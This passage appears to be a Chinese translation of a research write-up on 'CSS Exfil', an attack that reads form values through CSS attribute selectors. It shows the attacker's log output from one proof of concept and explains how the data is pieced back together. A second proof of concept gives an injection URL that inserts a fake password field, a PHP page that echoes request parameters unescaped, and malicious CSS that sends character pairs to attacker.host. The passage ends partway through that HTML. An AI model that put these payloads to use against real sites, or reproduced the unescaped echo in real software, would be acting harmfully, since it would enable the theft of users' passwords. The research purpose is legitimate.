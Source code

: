 
在访问`hxxps://victim[.]host/css-exfil-poc1[.]php?username=abcab`，攻击者将会收到如下的数据。

```txt
127.0.0.1 - - [25/Jan/2018:22:36:46 -0500] "GET /ab HTTP/1.1" 404 22
127.0.0.1 - - [25/Jan/2018:22:36:46 -0500] "GET /a_ HTTP/1.1" 404 22
127.0.0.1 - - [25/Jan/2018:22:36:46 -0500] "GET /bc HTTP/1.1" 404 22
127.0.0.1 - - [25/Jan/2018:22:36:46 -0500] "GET /_b HTTP/1.1" 404 22
127.0.0.1 - - [25/Jan/2018:22:36:46 -0500] "GET /ca HTTP/1.1" 404 22
```

可以猜测输入的是如下内容：

```txt
a       # a_
ab      # ab
abc     # bc
abca    # ca
abcab   # _b
```

恶意CSS使用模式匹配的两个字符组合('aa'， 'ab'， 'ac'…)，以及检测字符串的第一个和最后一个字母('a_' & '_a' callbacks)。这种方式提供了一个可靠的重组数据方案。其限制是重复模式可能并不总是显而易见的，如果数据解码为多个字符串，那么重构有时可能需要发挥人们的智力。

为什么不使用三个字符或更长的来匹配呢？一句话:实用性。如果可以预期数据的结构，则可以使用更长的字符串，下面将对此进行说明。攻击的针对性越强，就越有可能做出更好的数据预测，并减少CSS攻击足迹。但是一般来说，双字符先/后字符方法在整个攻击足迹中是最优性能的。

所有两个英文小写字母的排列结果是P(26,2) = 650。三个字母的排列增加到P(26,3) = 15,600,这使得条件#2更加不可能实现。此表描述了各种攻击字母表的属性。

![alphabet](alphabet.png)

根据目标数据元素在页面中的位置，含有大量元素的页面可能会被直接利用而不需要通过HTML进行注入。运行document.getElementsByTagName("*").length;在浏览器控制台中，将在页面上显示DOM(文档对象模型)元素的总数，这可以提供一个上限。例如，我的主页(在撰写本文时)总共有大约750个DOM元素。Slashdot的测试得到了约2,100个元素，谷歌News得到了约6,900个元素!这并不是说每个DOM元素都可以被目标元素正确引用，但是它给出了一个没有额外DOM注入的上限。

## 验证概念 #2
利用注入缺陷向页面中添加虚假的密码输入，并使用CSS Exfil窃取密码。

易被攻击的URL:`hxxp://victim[.]host/css-exfil-poc2[.]php?username="><br/>Password:<form><input type=password name=hidden_ele><br/><input type=submit></form><style>#form_submit{display:none;}</style><br`

```html
<html>
<head>
    <style>
        #hidden_ele[value*="aa"]~#aa{background:url("https://attacker.host/aa");}#hidden_ele[value*="ab"]~#ab{background:url("https://attacker.host/ab");}#hidden_ele[value*="ac"]~#ac{background:url("https://attacker.host/ac");}#hidden_ele[value^="a"]~#a_{background:url("https://attacker.host/a_");}#hidden_ele[value$="a"]~#_a{background:url("https://attacker.host/_a");}#hidden_ele[value*="ba"]~#ba{background:url("https://attacker.host/ba");}#hidden_ele[value*="bb"]~#bb{background:url("https://attacker.host/bb");}#hidden_ele[value*="bc"]~#bc{background:url("https://attacker.host/bc");}#hidden_ele[value^="b"]~#b_{background:url("https://attacker.host/b_");}#hidden_ele[value$="b"]~#_b{background:url("https://attacker.host/_b");}#hidden_ele[value*="ca"]~#ca{background:url("https://attacker.host/ca");}#hidden_ele[value*="cb"]~#cb{background:url("https://attacker.host/cb");}#hidden_ele[value*="cc"]~#cc{background:url("https://attacker.host/cc");}#hidden_ele[value^="c"]~#c_{background:url("https://attacker.host/c_");}#hidden_ele[value$="c"]~#_c{background:url("https://attacker.host/_c");}
    </style>
</head>
<body>
    <form>
        Username: <input type="text" id="username" name="username" value="<?php echo $_GET['username']; ?>" />
        <input id="hidden_ele" name="hidden_ele" type="hidden" value="<?php echo $_GET['hidden_ele'] ?> "/>
        <input id="form_submit" type="submit" value="submit"/>
        <a id="aa"><a id="ab"><a id="ac"><a id="a_"><a id="_a"><a id="ba"><a id="bb"><a id="bc"><a id="b_"><a id="_b"><a id="ca"><a id="cb"><a id="cc"><a id="c_"><a id="_c">
    </form>
```